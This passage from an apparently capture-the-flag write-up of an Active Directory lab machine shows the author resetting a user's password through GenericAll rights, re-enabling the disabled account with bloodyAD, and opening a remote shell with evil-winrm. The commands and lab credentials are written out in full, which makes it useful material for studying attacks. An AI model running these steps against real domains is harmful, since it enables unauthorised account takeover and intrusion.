 With this privilege, I can change `adam.silver`'s password wtihout knowing is current password.

```bash
# net rpc password adam.silver Bagu3tte -U PUPPY.HTB/ant.edwards%Antman2025! -S 10.10.11.70  
```      

I test the new password.

```
# nxc smb DC.puppy.htb -u adam.silver -p Bagu3tte
SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.232.75   445    DC               [-] PUPPY.HTB\adam.silver:Bagu3tte STATUS_ACCOUNT_DISABLED
```

NetExec returns that this account is disabled.
Since I have `GenericAll` privileges on this user, I can enable it with `bloodyAD`.

```bash
# bloodyAD --host DC.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
```

Now I can log in.

```bash
# nxc smb DC.puppy.htb -u adam.silver -p Bagu3tte                                              SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.232.75   445    DC               [+] PUPPY.HTB\adam.silver:Bagu3tte
```

# Connecting to DC and finding credentials in a backup file

`adam.silver` is able to connect to the DC via PowerShell Remoting.

![](img/adam.silver.png)

I connect with `evil-winrm`.

```
# evil-winrm -u adam.silver -p Bagu3tte -i 10.129.232.75                                       
Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.silver\Documents> whoami
puppy\adam.silver
```

